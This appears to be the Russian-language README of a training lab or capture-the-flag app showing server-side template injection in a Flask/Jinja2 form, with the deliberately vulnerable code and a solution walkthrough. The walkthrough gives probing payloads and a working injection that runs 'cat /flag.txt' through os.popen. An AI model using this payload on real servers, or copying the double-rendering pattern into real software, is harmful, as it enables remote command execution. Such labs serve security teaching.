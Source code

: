 ## Описание уязвимости
Описание уязвимости содержится в файле README по ссылке:
[Server_side_template_injection](https://github.com/Truncheon-eng/server_side_template_injection/blob/main/README.md)
## Способы защиты
Описание способов защиты находится в файле README по ссылке:
[Server_side_template_injection](https://github.com/Truncheon-eng/server_side_template_injection/blob/main/README.md)
## Запуск приложения
Для запуска приложения можно использовать, как `docker`, так и `docker-compose`. Запуск через `docker` аналогичен запуску [Server_side_template_injection](https://github.com/Truncheon-eng/server_side_template_injection/blob/main/README.md).
### Запуск через docker-compose
Для запуска приложения необходимо:
-  скачать репозиторий и перейти в папку с ним
-  заменить порт из файла `docker-compose.yaml`, если он занят(порт по умолчанию 9000)
- для запуска необходимо прописать в терминале:
```shell
docker-compose up
```
- в случае, если необходимо поменять флаг, то нужно менять содержимое файла `flag.txt`
## Описание уязвимости в приложении
В приложении имеется форма. У этой формы имеется 5 параметров:
- firstName
- lastName
- gender
- age
Все эти параметры используются при создании первой строки шаблона:
```python
def gen_template_string(name:str, surname: str, gender: int, age: int):
    template_string = render_template(
        "card.html",
        firstName = name,
        lastName = surname,
        gender = gender,
        age = age
    )
    return template_string
```
Кроме того, к шаблону добавляется "уникальный" идентификатор:
```python
final_template_string = gen_template_string(name, surname, gender, age) + uniq_data
return jinja2.Template(final_template_string).render(
	uniq_id = uuid.uuid4()
)
```
Так как генерация шаблонов происходит несколько раз, появляется SSTI.
## Решение
**Флаг содержится  в  `/flag.txt`**
Введём какую-то информацию в форму и посмотрим, что нам возвращается:
![](./img/img_1.png)
Видим, что переданные `Hello` и `Sth` в поле `firstName` и `lastName`, также отобразились в ответе:
![](./img/img_2.png)
Всё это нас заставляет задуматься, что приложение использует какой-то шаблонизатор. По этой причине воспользуемся следующей картинкой для определения самого шаблонизатора.
![](./img/img_3.png)
Первая полезная нагрузка `${7*7}` просто отображается в самом шаблоне:
![](./img/img_4.png)
Вторая полезная нагрузка `{{7*7}}` уже отображается в ответе, как 49:
![](./img/img_5.png)
Третья полезная нагрузка `{{7*'7'}}` отображается в `7777777`:
![](./img/img_6.png)
По этой причине мы делаем вывод, что здесь используется jinja.
Дальнейшая эксплуатация заключается в выходе из окружения и получения доступа к модулю `__import__`. Для этого можно использовать различные полезные нагрузки, которые используют примитивные элементы, как `'', dict, ()` и дальше наследуются от них. Но я воспользуюсь таким наследованием:
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```
В конечном итоге получаю содержимое флага:
![](./img/img_7.png)